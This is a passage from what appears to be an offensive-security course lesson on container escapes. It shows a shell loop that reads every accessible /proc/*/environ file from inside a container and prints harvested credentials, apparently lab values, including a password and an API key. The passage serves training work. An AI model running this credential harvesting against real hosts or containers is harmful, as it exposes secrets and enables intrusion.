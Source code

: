 ```
01 for e in $(ls /proc/*/environ); 
02 do 
03    echo "----------"; 
04    echo $e; 
05    cat $e| tr '\0' '\n'; 
06 done > envs.txt
```

> Listing 33 - Script for Looping Environment Variables

The script in the Listing above will start by looping through all **environ** entries in the **proc** file system. For each process, we'll add a separator (line 3) and echo the **environ** file we're indexing. On line 5, we'll get the contents of the file, but we'll translate all null characters using a new line. Finally, we'll save the output to **envs.txt**

Let's condense our script into a single line and execute it in the container.

```
victim:/# for e in $(ls /proc/*/environ); do echo; echo $e; cat $e| tr '\0' '\n'; done > envs.txt
cat: can't open '/proc/1/environ': Permission denied
...
cat: can't open '/proc/871/environ': Permission denied
```

> Listing 34 - Running Script to Loop environ Entrys

Even though we're running as _root_ in the container, processes that lack the CAP_SYS_PTRACE capability cannot read the process information of processes running as another user. These processes will throw a "Permission Denied" error. We can, however, find the root processes that we were allowed to read in **envs.txt**.

```
victim:/# cat envs.txt
...

/proc/40553/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=env_leaker
USER=admin
PASSWORD=VignVjZ5n6LHd7N28ywqw9dO
API=96ae5761-966e-41a9-a809-021fbfe6facc
HOME=/root
...
victim:/#
```

> Listing 35 - Reviewing Environment Variables

While reviewing the environment variables, we'll find another set of credentials that might be useful. It's become common for processes to be configured using environment variables. For example, the MySQL container image[1](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-information-gathering-51034/discovering-sensitive-data-51090/host-pid-accessing-host-processes-51043#fn-local_id_1023-1) might have its password for root configured via environment variables. Let's inspect the mysqld process we found earlier.

Let's find the process ID again and investigate its **environ** entry.
